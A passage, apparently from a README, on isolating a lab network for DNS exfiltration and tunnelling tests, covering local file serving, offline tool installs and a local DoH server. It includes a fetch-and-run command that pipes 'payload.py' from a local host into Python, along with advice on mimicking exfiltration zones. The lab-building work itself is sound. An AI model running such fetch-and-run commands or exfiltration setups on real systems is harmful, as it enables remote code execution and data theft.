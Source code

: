 ```bash
python3 -m http.server 8000
```

Clients must fetch from your local IP:

```bash
curl http://10.0.0.2:8000/payload.py | python3 -
```

Ensure:

* No hardcoded internet IPs (like `8.8.8.8`, `cloudflare-dns.com`, etc.)
* All tools resolve and route traffic within the test subnet

---

## 🧰 4. Tooling Must Be Preinstalled

### ✅ Solution:

Pre-download and install everything on your test kit:

* `dnslib`, `flask`, `scapy`, `iodine`, etc.
* Python packages via `pip download` beforehand:

  ```bash
  pip download dnslib -d offline-pkgs/
  ```

Then transfer and install offline:

```bash
pip install --no-index --find-links=offline-pkgs/ dnslib
```

---

## 📦 5. No DoH to Public Servers (Cloudflare, Google)

### ✅ Solution:

If using DNS-over-HTTPS:

* Run your own local DoH server inside the test net
* Modify the client to POST queries to `http://10.0.0.3:8080/dns-query` instead of `cloudflare-dns.com`

---

## 🧪 6. Simulate Public DNS Zones Internally (Optional)

If you're mimicking public exfil behavior:

* Set up your own internal domain (e.g., `corp.exfil.test`)
* Create fake zones and NS records in Bind/unbound:
